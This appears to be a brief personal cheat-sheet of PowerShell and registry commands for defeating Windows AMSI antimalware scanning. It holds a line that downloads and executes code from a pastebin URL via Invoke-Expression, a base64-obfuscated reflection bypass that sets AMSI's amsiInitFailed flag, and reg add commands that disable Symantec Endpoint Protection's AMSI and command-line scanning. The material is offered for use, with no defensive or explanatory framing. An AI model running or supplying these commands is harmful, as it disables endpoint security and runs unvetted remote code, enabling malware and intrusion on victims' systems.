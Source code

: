 test if AMSI is activated :

 - powershell "Invoke-Expression (Invoke-WebRequest
   http://pastebin.com/raw.php?i=JHhnFV8m)"

- [Reflection.Assembly]::LoadWithPartialName('System.Management.Automation.AmsiUtils')    | Out-Null

Maybe :

- [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

-
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v AMSIEnabled /t REG_DWORD /d 0 /f && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v CommandLineScanEnabled /t REG_DWORD /d 0 /f
